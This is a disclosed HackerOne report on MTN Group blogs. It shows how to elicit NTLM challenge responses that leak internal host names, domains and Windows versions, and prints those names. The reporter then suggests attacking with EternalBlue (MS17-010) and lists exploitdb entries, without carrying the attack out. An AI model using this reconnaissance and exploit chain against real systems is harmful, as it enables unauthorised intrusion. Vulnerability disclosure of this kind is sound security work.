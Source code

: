 # Disclosure of internal information using hidden NTLM authentication leading to an exploit server

## Report Details
- **Report ID**: 853284
- **URL**: https://hackerone.com/reports/853284
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-19T06:06:37.399Z
- **Disclosed**: 2021-08-04T14:49:10.236Z

## Reporter
- **Username**: z3lox
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
By using a request get on the url [██████████](███████) of the blog.
we collect sensitive information from blogs
## step 
Typically, when visiting a website  █████████ or directory  ██████ requiring privileged access, the server will initiate a login prompt. This allows the client to send blank username and password values to check for NTLM authentication and receive the encoded response. However, if the target server is configured to allow windowsAuthentication, it may be possible to invoke this response without a login prompt. This can be done by adding “Authorization: ███” to the request headers.
Once an NTLM challenge is returned in the “WWW-Authenticate” value of the response headers, it can be decoded to capture internal information. I personally use Burp’s NTLM Challenge Decoder, but multiple other scripts have been written that can perform these actions.

```
GET /fr/Pages/ HTTP/1.1
Host: ████████
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/██████████ Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ███
Upgrade-Insecure-Requests: 1
Authorization: ████████
```

```
Target MTNICT
MsvAvNbComputerName ZACNVSPRWSBS01
MsvAvDnsDomainName mtnict.local
Windows Server 2012 R2 / Windows 8.1 version
MsvAvNbDomainName MTNICT
MsvAvDnsComputerName ZACNVSPRWSBS01.mtnict.local
MsvAvDnsTreeName mtnict.local
MsvAvTimestamp ████ ████████
```
This same vulnerability is present on the blog ███████

```
Target	MTNGROUPSA
MsvAvNbComputerName	PSWSPEMVA21
MsvAvDnsDomainName	mtn.co.za
Version	Windows Server 2012 R2 / Windows 8.1
MsvAvNbDomainName	MTNGROUPSA
MsvAvDnsComputerName	PSWSPEMVA21.mtn.co.za
MsvAvDnsTreeName	mtn.co.za
MsvAvTimestamp	███████ █████████

```
Obviously we have a Target name, computer name, and the essential version:
version of Windows Server 2012 R2 / Windows 8.1 vulnerable to a remote attack, MS17-010: CVE: 2017-0144
Let run metasploite with the exploit Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)   
Exploiting this vulnerability would be going against the rules of politics
I would like to point out that this vulnerability is clearly dangerous and its exploitation would just be a game for an intentional bad attacker.

```
 -------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                  |  Path
                                                                                                                                | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17-010)       | exploits/windows/remote/43970.rb
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                                   | exploits/windows/dos/41891.rb
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                      | exploits/windows_x86-64/remote/42030.py
-------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
```

## Impact

>-Malicious attackers can add bitcoin mining source code to the site architecture
>-Modified changes to the database
>-Collect person information on blog staff

## Attachments
- Capture_d__cran_de_2020-04-18_16-46-21.png
- Capture_d__cran_de_2020-04-19_06-38-49.png
